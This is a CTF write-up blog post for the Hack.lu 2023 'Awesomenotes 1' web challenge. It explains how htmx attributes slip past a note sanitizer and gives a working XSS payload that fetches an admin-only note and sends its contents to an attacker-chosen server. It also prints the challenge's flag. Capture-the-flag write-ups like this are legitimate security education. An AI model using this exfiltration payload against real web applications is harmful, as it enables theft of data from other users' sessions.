 ```yaml
---
layout: post
title: "Hack.lu CTF Awesomenotes 1 web challenge writeup"
date: 2023-10-15 21:30:00 +0100
categories: ctf web security writeup htmx
permalink: /posts/ctf-hack-lu-web-awesomenotes
---
```


## Awesomenotes 1

CTF name: **[Hack.lu CTF 2023](https://flu.xxx/info)**
Challenge name: **Awesomenotes 1**
Challenge description:

```text
We're excited to announce our new, revolutionary product: A note-taking app. This phenomenal product uses the most up-to-date, bleeding-edge tech in order to stay ahead of all potential security issues. No-one can pwn us.
```

Challenge category: **web**
Challenge points: **88**
When: **Fri, Oct. 13, 18:00 — Sun, Oct. 15, 18:00 UTC**

### TLDR - solution

```html
<div 
    hx-get="/api/note/flag?t=" 
    hx-trigger="load delay:0.001s"
    hx-target="#report"
>
    get flag
</div>
<div 
    hx-get="YOUR_SERVER" 
    hx-on::config-request="event.detail.parameters['flag'] = document.getElementById('report').innerHTML"
    hx-trigger="load delay:0.8s"
    hx-target="#report"
>
    send flag
</div>
```

### Description

![Alt text](/assets/images/2023-10-15/image-4.png)
Challenge was marked as **beginner friendly**. You're greet with a simple web page where you can create and report a `note`.

![Alt text](/assets/images/2023-10-15/image-8.png)

After checking the `get_note` function we knew the flag location (in a `flag` note) and that only admin had an access to it.

![Alt text](/assets/images/2023-10-15/image-1.png)

Another function `take_report` is called by a bot after reporting a note. The last function `upload_note` has some logic to sanitize a user input. After a quick look you find that `hx-` tags are allowed.

![Alt text](/assets/images/2023-10-15/image-2.png)

Another hint is in the `note.html` file.

![Alt text](/assets/images/2023-10-15/image-3.png)

It should be clear by now that we need to prepare a note and use **XSS** to send us a flag after we report it to admin and that [htmx](https://htmx.org/docs/) is used/allowed on the FE. There's even an example 😉

We used [webhook.site](https://webhook.site) as a temporary log server.

The idea was to use `htmx` to make two calls:

- first to get the `flag` note from `/api/notes/flag`
- second to send the `flag` to our server

`noteId` is always added to `hx-get="/api/note/` on every `post` call, so adding `?t=` at the very end means we can ignore it. `hx-trigger` sets the runtime delay. `hx-target` is our target html element, so we used the `report` bottom link button with `id="report"`.

![Alt text](/assets/images/2023-10-15/image-5.png)

We've got the first call ready (it fails with `401` while testing. It's a good sign because we don't have an access to the flag).

The second part is all about `hx-on::config-request`. In the [docs](https://htmx.org/events/#htmx:configRequest) we've found you can set event parameters via `event.detail.parameters['your_parameter']`. We should already have the `flag` in `#report` link, so all we need is to get the value via `document.getElementById('report').innerHTML`. Last thing is to set the trigger to give some time for the first call to update the link.

Send prepared note, wait for a request

![Alt text](/assets/images/2023-10-15/image-7.png)

and you get the `flag`

```text
flag{C3r34l_1s_s0up_l1k3_1f_4gr33}
```

{% include posts_footer.html %}
